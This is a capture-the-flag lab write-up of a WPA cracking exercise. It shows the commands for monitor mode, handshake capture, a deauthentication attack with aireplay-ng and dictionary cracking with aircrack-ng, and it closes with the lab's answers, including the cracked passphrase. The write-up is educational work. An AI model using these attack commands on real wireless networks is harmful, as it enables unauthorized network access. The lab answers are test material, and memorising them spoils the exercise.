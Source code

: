 # Day 11: If you'd like to WPA, press the star key!

**Connection to the Machine:**
To begin, a virtual machine and AttackBox were utilized for the analysis.

Accessed the VM from the AttackBox via SSH with the following command, using the given credentials.

`ssh glitch@10.10.160.118`

![image](https://github.com/user-attachments/assets/5e249540-f5df-41e4-93be-915ed90db2a5)

## Approach:

**Ran the following commands:**

- `iw dev` : This will show any wireless devices and their configuration that we have available for us to use.

  ![image](https://github.com/user-attachments/assets/d72179fa-5591-4cd6-b2da-e55a3556528f)

  `BSSID` of our wireless interface: `02:00:00:00:02:00`.

- `sudo iw dev wlan2 scan` :  scanned for nearby Wi-Fi networks using our wlan2 device

  ![image](https://github.com/user-attachments/assets/8990b8e0-c66a-4fae-ae05-df3bd5eafc15)

  The `BSSID` and `SSID` of the device are `02:00:00:00:02:00` and `MalwareM_AP` respectively.

- ```
  sudo ip link set dev wlan2 down
  sudo iw dev wlan2 set type monitor
  sudo ip link set dev wlan2 up
  sudo iw dev wlan2 info 

Turned our device off, switched to monitor mode and then turned our device back on and confirmed that our interface is in monitor mode.

  ![image](https://github.com/user-attachments/assets/3fc8e98b-c9d5-4c37-b328-27c37305d12e)

- `sudo airodump-ng wlan2` : This command provides a list of nearby Wi-Fi networks (SSIDs) and shows important details like signal strength, channel, and encryption type.

  ![image](https://github.com/user-attachments/assets/9deb5d15-7d00-48cd-972b-0351e89fbd79)

    The `BSSID` and `SSID` of the **access ponit** are `02:00:00:00:00:00` and `MalwareM_AP` respectively.

- `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2` : This will capture the traffic of the access point. We will leave this command running and launch the attack on a second terminal.

  ![image](https://github.com/user-attachments/assets/ce0e7c02-6f59-4fd0-9156-06eb48b0916e)

  The `STATION` section shows the device's `BSSID` (MAC) of `02:00:00:00:01:00` that is already connected to the access point.

**Second terminal:**

- `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2` : The `-0` flag indicates that we are using the deauthentication attack, and the `1` value is the number of deauths to send. The `-a` indicates the BSSID of the access point and `-c` indicates the BSSID of the client to deauthenticate.

- `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap` : Using the captured WPA handshake to attempt to crack the WPA/WP2 passphrase. Performs a dictionary attack in order to match the passphrase against each entry in a specified wordlist file(`rockyou.txt`).

  ![image](https://github.com/user-attachments/assets/24272112-ac6a-46bc-93e0-7348d669fd74)

  Key Found: `fluffy/champ24`

---

## Answers to the given questions:

What is the BSSID of our wireless interface?

```
02:00:00:00:02:00
```

---

What is the SSID and BSSID of the access point? Format: SSID, BSSID


```
MalwareM_AP, 02:00:00:00:00:00
```

---

What is the BSSID of the wireless interface that is already connected to the access point?


```
02:00:00:00:01:00
```

![image](https://github.com/user-attachments/assets/ce0e7c02-6f59-4fd0-9156-06eb48b0916e)

---

What is the PSK after performing the WPA cracking attack?


```
fluffy/champ24
```

---

![image](https://github.com/user-attachments/assets/3bed7918-52fd-461e-a1cb-df367beaf0c4)

